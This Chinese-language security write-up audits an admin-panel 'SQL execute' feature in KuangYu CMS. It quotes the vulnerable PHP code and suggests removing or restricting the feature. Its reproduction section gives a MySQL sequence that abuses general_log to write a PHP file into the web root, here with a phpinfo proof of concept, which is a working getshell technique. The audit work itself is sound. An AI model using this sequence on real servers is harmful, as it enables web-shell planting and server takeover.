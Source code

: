 # 狂雨CMS后台SQL代码执行

## 审计

`application/admin/controller/Tool.php->sqlexecute()`

```php
public function sqlexecute(){
        if($this->request->isPost()){
            $sql=$this->request->param('sql');
            if(!empty($sql)){
                $sql = str_replace('{pre}',Config::get('database.prefix'),$sql);
                //查询语句返回结果集
                if(strtolower(substr($sql,0,6))=="select"){

                }
                else{
                    $return = Db::execute($sql);
                }
            }
            return $this->success('执行完成');
        }else{
            $this->assign('meta_title','SQL语句执行');
            return $this->fetch();
        }
    }
```

Db是thinkphp内置类，可以看到前六个字符是`select`的话其实什么都没有执行。。。报错的话无法存入log中，所以用了`create`

### 防御方法

针对传入的语句进行限制，比如只能进行查询操作。建议最好还是直接取消这个功能，对SQL的操作直接在服务器上进行，放在后台实在是弊大于利

## 漏洞复现

后台存在SQL代码执行功能

![mtUfnCEZOR1M7KP](resource/狂雨CMS后台SQL代码执行/media/mtUfnCEZOR1M7KP.png)

但`secure_file_priv`设置为空，无法导出文件，可以利用`general_log`进行getshell

依次执行以下代码

```mysql
set global general_log=On;
set global general_log_file="D:\\phpstudy_pro\\WWW\\123.php";
create table tmp (value varchar(25));
insert into tmp (value) values ("<?php phpinfo(); ?>");
drop table tmp;
set global general_log=Off;
```

![5fiPb2YKw8IlMJX](resource/狂雨CMS后台SQL代码执行/media/5fiPb2YKw8IlMJX.png)

得到`general_log`，内容如图所示

![rP1bqJAwpymRxLI](resource/狂雨CMS后台SQL代码执行/media/rP1bqJAwpymRxLI.png)

访问即可看到`phpinfo`

## 参考

https://www.cnblogs.com/0daybug/p/12624364.html